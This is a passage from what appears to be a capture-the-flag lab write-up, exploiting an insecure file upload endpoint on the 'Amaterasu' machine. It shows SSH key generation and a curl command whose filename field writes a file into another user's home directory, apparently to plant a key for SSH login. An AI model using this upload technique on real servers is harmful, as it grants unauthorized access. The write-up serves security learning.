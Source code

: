 ## 3. Exploitation

### Insecure File Upload

I will upload my SSH private key to /file-upload.

First, I will generate the key.

```bash
ssh-keygen -t rsa
```

![Untitled](../assets/img/pg/Amaterasu/Untitled%207.png)

```bash
cd /home/0xfl0k1/.ssh
sudo chmod 600 id_rsa #this is what I will use to log in
sudo cp id_rsa.pub id_rsa.txt #this is what I will send to the server.
```

Poc (file lista.txt)

```bash
curl -X POST -F 'file=@/tmp/lista.txt' -F filename="/home/alfredo/lista.txt" http://192.168.197.249:33414/file-upload 
```

![Untitled](../assets/img/pg/Amaterasu/Untitled%208.png)

View
